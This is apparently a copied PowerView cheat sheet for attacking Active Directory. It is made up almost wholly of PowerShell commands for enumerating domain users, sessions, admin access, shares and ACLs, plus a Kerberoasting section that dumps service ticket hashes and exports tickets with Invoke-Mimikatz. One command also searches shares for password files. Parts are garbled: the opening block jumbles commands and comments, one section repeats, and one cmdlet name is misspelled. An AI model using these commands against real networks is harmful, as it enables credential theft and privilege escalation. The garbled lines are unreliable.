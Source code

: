 # PowerView

[https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

[https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

- Current Domain

```bash
#Get Current Domain: 
Get-Domain

Enumerate Other Domains: 
#Get-Domain -Domain <DomainName>

#Get Domain SID: 
Get-DomainSIDGet Current Domain: Get-Domain

#Enumerate Other Domains: 
Get-Domain -Domain <DomainName>

Get Domain SID: 
#Get-DomainSID
```

- **Get Domain Policy:**

```bash
Get-DomainPolicy

#Will show us the policy configurations of the Domain about system access or kerberos
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess
Get-DomainPolicy | Select-Object -ExpandProperty KerberosPolicy
```

- **Get Domain Controllers:**

```bash
Get-DomainController
Get-DomainController -Domain <DomainName>
```

- **Enumerate Domain Users:**

```bash
#Save all Domain Users to a file
Get-DomainUser | Out-File -FilePath .\DomainUsers.txt

#Will return specific properties of a specific user
Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | Format-List

#Enumerate user logged on a machine
Get-NetLoggedon -ComputerName <ComputerName>

#Enumerate Session Information for a machine
Get-NetSession -ComputerName <ComputerName>

#Enumerate domain machines of the current/specified domain where specific users are logged into
Find-DomainUserLocation -Domain <DomainName> | Select-Object UserName, SessionFromName
```

- **Enum Domain Computers:**

```bash
Get-DomainComputer -Properties OperatingSystem, Name, DnsHostName | Sort-Object -Property DnsHostName

#Enumerate Live machines
Get-DomainComputer -Ping -Properties OperatingSystem, Name, DnsHostName | Sort-Object -Property DnsHostName
```

- **Enum Groups and Group Members**

```bash
#Save all Domain Groups to a file:
Get-DomainGroup | Out-File -FilePath .\DomainGroup.txt

#Return members of Specific Group (eg. Domain Admins & Enterprise Admins)
Get-DomainGroup -Identity '<GroupName>' | Select-Object -ExpandProperty Member
Get-DomainGroupMember -Identity '<GroupName>' | Select-Object MemberDistinguishedName

#Enumerate the local groups on the local (or remote) machine. Requires local admin rights on the remote machine
Get-NetLocalGroup | Select-Object GroupName

#Enumerates members of a specific local group on the local (or remote) machine. Also requires local admin rights on the remote machine
Get-NetLocalGroupMember -GroupName Administrators | Select-Object MemberName, IsGroup, IsDomain

#Return all GPOs in a domain that modify local group memberships through Restricted Groups or Group Policy Preferences
Get-DomainGPOLocalGroup | Select-Object GPODisplayName, GroupName
```

- **Enum Domain Computers:**

```bash
Get-DomainComputer -Properties OperatingSystem, Name, DnsHostName | Sort-Object -Property DnsHostName

#Enumerate Live machines
Get-DomainComputer -Ping -Properties OperatingSystem, Name, DnsHostName | Sort-Object -Property DnsHostName
```

- **Enumerate Shares:**

```bash
#Enumerate Domain Shares
Find-DomainShare

#Enumerate Domain Shares the current user has access
Find-DomainShare -CheckShareAccess

#Enumerate "Interesting" Files on accessible shares
Find-InterestingDomainShareFile -Include *passwords*
```

- **Enum Group Policies:**

```bash
Get-DomainGPO -Properties DisplayName | Sort-Object -Property DisplayName

#Enumerate all GPOs to a specific computer
Get-DomainGPO -ComputerIdentity <ComputerName> -Properties DisplayName | Sort-Object -Property DisplayName

#Get users that are part of a Machine's local Admin group
Get-DomainGPOComputerLocalGroupMapping -ComputerName <ComputerName>
```

- **Enum ACLs:**

```bash
# Returns the ACLs associated with the specified account
Get-DomaiObjectAcl -Identity <AccountName> -ResolveGUIDs

#Search for interesting ACEs
Find-InterestingDomainAcl -ResolveGUIDs

#Check the ACLs associated with a specified path (e.g smb share)
Get-PathAcl -Path "\\Path\Of\A\Share"
```

- **User Hunting:**

```bash
#Finds all machines on the current domain where the current user has local admin access
Find-LocalAdminAccess -Verbose

#Find local admins on all machines of the domain
Find-DomainLocalGroupMember -Verbose

#Find computers were a Domain Admin OR a spesified user has a session
Find-DomainUserLocation | Select-Object UserName, SessionFromName

#Confirming admin access
Test-AdminAccess
```

Kerberoasting

```bash
#Get User Accounts that are used as Service Accounts
Get-NetUser -SPN

#Get every available SPN account, request a TGS and dump its hash
Invoke-Kerberoast

#Requesting the TGS for a single account:
Request-SPNTicket

#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
